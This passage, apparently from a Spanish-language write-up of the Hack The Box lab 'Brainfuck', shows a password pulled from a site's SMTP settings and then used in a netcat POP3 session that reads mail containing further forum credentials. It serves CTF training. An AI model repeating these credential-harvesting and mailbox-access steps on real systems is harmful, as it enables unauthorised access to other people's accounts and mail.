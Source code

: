 Nos logueamos como admin e inspeccionamos el sitio.

Encontramos la contraseña de orestis en la seccion de configuracion de SMTP :

![](/assets/images/brainfuck-writeup/pass_smtp.png)

inspeccionamos el codigo fuente y podemos ver la contraseña en claro.

Por lo que nos conectamos a smtp para inspeccionar los correos recibidos por orestis :

```
nc -nv 10.10.10.17 110
(UNKNOWN) [10.10.10.17] 110 (pop3) open
+OK Dovecot ready.
USER orestis
+OK
PASS kHGuERB29DNiNE
+OK Logged in.
list
+OK 2 messages:
1 977
2 514
.
retr 2
+OK 514 octets
Return-Path: <root@brainfuck.htb>
X-Original-To: orestis
Delivered-To: orestis@brainfuck.htb
Received: by brainfuck (Postfix, from userid 0)
	id 4227420AEB; Sat, 29 Apr 2017 13:12:06 +0300 (EEST)
To: orestis@brainfuck.htb
Subject: Forum Access Details
Message-Id: <20170429101206.4227420AEB@brainfuck>
Date: Sat, 29 Apr 2017 13:12:06 +0300 (EEST)
From: root@brainfuck.htb (root)

Hi there, your credentials for our "secret" forum are below :)

username: orestis
password: kIEnnfEKJ#9UmdO

Regards
.
```
